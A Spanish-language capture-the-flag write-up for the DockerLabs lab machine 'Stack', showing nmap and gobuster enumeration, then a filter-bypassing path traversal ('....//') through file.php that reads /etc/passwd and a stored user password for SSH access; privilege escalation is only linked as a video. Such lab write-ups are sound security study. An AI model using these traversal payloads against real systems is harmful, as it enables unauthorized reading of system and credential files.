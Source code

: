 Maquina **Stack** de [DockerLabs](https://dockerlabs.es)

Autor: [4bytes](https://github.com/4bytess/)

Dificultad: Medio

![Stack](/maquina-stack/img/stack.png)

# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sS -sV -sC --open --min-rate 5000 -n -Pn -p- -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Sat Dec 21 06:29:52 2024 as: nmap -sS -sV -sC --open --min-rate 5000 -n -Pn -p- -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-12-21 06:29:53 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 85:7f:49:c5:89:f6:ce:d2:b3:92:f1:40:de:e0:56:c4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKbh8ym3+2VX/os7OkffE47hGnUItmzsxnzZC5nyyZX+f/Yxs4jYIh2kKaaz0JDWEqvH0yMxLWbHT3GNTgB9twY=
|   256 6d:ed:59:b8:d8:cc:50:54:9d:37:65:58:f5:3f:52:e3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDzqQNHKTTYWl1CeWFUVL0KzT9nplldPzKCW/b2mieL4
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
|_http-title: Web en producci\xC3\xB3n
|_http-server-header: Apache/2.4.62 (Debian)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec 21 06:30:01 2024 -- 1 IP address (1 host up) scanned in 8.97 seconds
```

Como vemos, solo tenemos dos puertos abiertos en este debian:

•`Puerto 22: OpenSSH 9.2p1`

•`Puerto 80: Apache httpd 2.4.62`

Voy al puerto 80 desde el navegador y no encuentro nada, por lo que paso directamente a hacer `fuzzing` con `gobuster`:

```css
gobuster dir -u "http://172.17.0.2" -w /directory-list-2.3-medium.txt -x php,html,txt
```

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 417]
/file.php             (Status: 200) [Size: 0]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/note.txt             (Status: 200) [Size: 110]
Progress: 377995 / 882184 (42.85%)
===============================================================
Finished
===============================================================
```

Como vemos tenemos una nota y un file.php, si leemos la nota dice lo siguiente:

```css
Hemos detectado el LFI en el archivo PHP, pero gracias a str_replace() creemos haber tapado la vulnerabilidad
```

viendo lo que dice, es una probable pista de que "file.php" tiene un LFI, ya que según gobuster tiene un tamaño de 0 (no se imprime nada en la web), por lo que probando un parametro tipico (file) veo que realmente si se estan incluyendo archivos:

```css
http://172.17.0.2/file.php?file=index.html
```

# Intrusión

Viendo esto, pruebo un path traversal pero no funciona, y luego de probar varios, este si me funciona correctamente:

```css
http://172.17.0.2/file.php?file=....//....//....//....//....//....//....//....//etc/./passwd
```

Luego, si revisamos el codigo fuente de la pagina principal, veremos el siguiente mensaje:

```css
        <!--Mensaje para Bob: hemos guardado tu contraseña en /usr/share/bob/password.txt-->
```

sabiendo esto, debemos entrar a:

```css
http://172.17.0.2/file.php?file=....//....//....//....//....//....//....//....//usr/share/bob/password.txt
```

Una vez hecho, ya tendremos la contraseña por lo que entramos por ssh.

# Escalada De Privilegios

### Bob

## Buffer Overflow:

[Video yt](https://youtu.be/U9zhIW69cyk)

Gracias por leer y ver ;)
